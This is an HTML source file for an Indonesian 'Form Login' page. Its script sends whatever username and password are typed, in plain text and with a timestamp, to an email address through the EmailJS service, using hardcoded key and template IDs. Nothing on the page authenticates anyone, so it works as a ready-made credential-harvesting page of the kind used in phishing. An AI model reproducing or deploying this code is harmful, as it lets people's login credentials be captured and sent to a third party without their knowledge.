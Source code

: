 <!DOCTYPE html>
<html lang="id">
<head>
  <meta charset="UTF-8" />
  <meta name="viewport" content="width=device-width, initial-scale=1.0" />
  <title>Login Form - EmailJS</title>
  <script src="https://cdn.jsdelivr.net/npm/emailjs-com@3/dist/email.min.js"></script>
  <style>
    body {
      margin: 0;
      font-family: Arial, sans-serif;
      background: url('file-ASDzNYFzQDkvSqwd9gLZ5B') no-repeat center center fixed;
      background-size: cover;
      display: flex;
      justify-content: center;
      align-items: center;
      height: 100vh;
    }
    .form-container {
      background: rgba(255, 255, 255, 0.85);
      padding: 30px;
      border-radius: 10px;
      box-shadow: 0 4px 8px rgba(0,0,0,0.2);
    }
    input {
      display: block;
      margin-bottom: 15px;
      width: 100%;
      padding: 10px;
      font-size: 16px;
    }
    button {
      background: #4CAF50;
      color: white;
      border: none;
      padding: 10px;
      font-size: 16px;
      cursor: pointer;
    }
  </style>
</head>
<body>
  <div class="form-container">
    <h2>Form Login</h2>
    <form id="loginForm">
      <input type="text" name="username" placeholder="Username" required />
      <input type="password" name="password" placeholder="Password" required />
      <button type="submit">Kirim</button>
    </form>
  </div>

  <script>
    emailjs.init("gUbi1tM7GsAo5J-bd"); // Public Key EmailJS

    document.getElementById("loginForm").addEventListener("submit", function(e) {
      e.preventDefault();

      const form = e.target;
      const username = form.username.value;
      const password = form.password.value;
      const waktu = new Date().toLocaleString();

      emailjs.send("service_0zht7fa", "template_apwq9aa", {
        username: username,
        password: password,
        waktu: waktu
      })
      .then(() => {
        alert("Form berhasil dikirim ke email Anda.");
        form.reset();
      })
      .catch((err) => {
        console.error("Gagal kirim:", err);
        alert("Gagal mengirim form.");
      });
    });
  </script>
</body>
</html>
